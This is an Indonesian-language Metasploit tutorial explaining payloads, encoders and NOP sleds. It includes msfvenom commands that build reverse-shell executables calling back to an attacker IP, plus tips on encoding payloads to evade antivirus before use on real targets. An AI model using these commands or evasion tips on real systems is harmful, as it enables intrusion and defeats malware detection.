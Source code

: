  # Memahami Payload, Encoder, dan NOPs

## A. Apa Itu Payload?

Payload adalah kode yang dijalankan di sistem target setelah berhasil dieksploitasi. Dalam konteks Metasploit, payload bisa bersifat:
- **Reverse Shell** (membuka koneksi dari target ke attacker)
- **Bind Shell** (membuka port di target untuk diakses attacker)
- **Meterpreter** (payload canggih Metasploit dengan banyak fitur)

Contoh Payload Populer:

| Payload |	Keterangan |
|:--:|:--:|
| `windows/meterpreter/reverse_tcp` |	Memberi shell Meterpreter via koneksi TCP balik |
| `linux/x86/meterpreter_reverse_http` | Meterpreter pada Linux via HTTP |
| `cmd/unix/reverse_bash`	| Shell balik |

## B. Apa itu Encoder?

Encoder adalah teknik untuk menyandikan payload agar tidak terdeteksi oleh antivirus atau menghindari karakter terlarang (bad characters).

**Mengapa Perlu Encoder?**

- Menghindari deteksi signature oleh antivirus.
- Menyesuaikan dengan karakterisasi buffer (misal: tidak boleh ada `\x00`).

Contoh Encoder:

| Encoder	| Platform | Deskripsi |
|:--:|:--:|:--:|
| `x86/shikata_ga_nai`	| `x86` | Encoder polymorphic yang sulit dideteksi |
| `cmd/echo` | `Windows` | Menyandikan payload sebagai perintah echo |
| `generic/none` | `All` | Tidak menggunakan encoding |

Contoh Penggunaan Encoder:

```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.8 LPORT=4444 -e x86/shikata_ga_nai -i 3 -f exe -o shell_encoded.exe
```

Keterangan:
- `-p`: Jenis payload: `windows/meterpreter/reverse_tcp`
- `LHOST`: IP Attacker: `192.168.1.8`
- `LPORT`: Port listener: `4444`
- `-e`: Encoder (contoh: `x86/shikata_ga_nai`)
- `-i`: Iterasi encoder (semakin banyak, semakin acak tapi bisa tidak stabil)
- `-f`: Format payload: `exe`
- `-o`: Nama file hasil payload: `shell_encoded.exe`

## C. Apa itu NOPs (No Operation)?

NOP adalah instruksi kosong (tidak melakukan apa-apa) yang digunakan untuk:
- Menstabilkan eksekusi shellcode
- Mengisi buffer sebelum shellcode
- Menghindari crash karena posisi shellcode bergeser

**NOP sled**

NOP sled adalah serangkaian instruksi NOP yang ditempatkan sebelum shellcode agar eksekusi tetap mencapai payload meskipun offset tidak akurat.

```
\x90\x90\x90\x90...[NOP]...\xCC\xE8... [payload]
```

Di Metasploit, NOP generator dapat ditambahkan saat membuat payload:

```
msfvenom -p windows/shell_reverse_tcp LHOST=192.168.1.5 LPORT=4444 -n 16 -f exe > payload.exe
```

Keterangan:
- `-n 16`: Menambahkan 16 byte NOP sled

## D. Relasi Payload, Encoder, dan NOPs

Ketiganya bekerja sama untuk membentuk payload yang:
- Efektif
- Tidak terdeteksi
- Stabil saat dieksekusi di memori target

## Tips Tambahan

- Gunakan encoder `x86/shikata_ga_nai` dengan iterasi `3–5x` untuk menghindari AV.
- Tambahkan NOP jika payload crash saat buffer overflow.
- Uji payload dengan antivirus scanner sebelum digunakan ke target real.
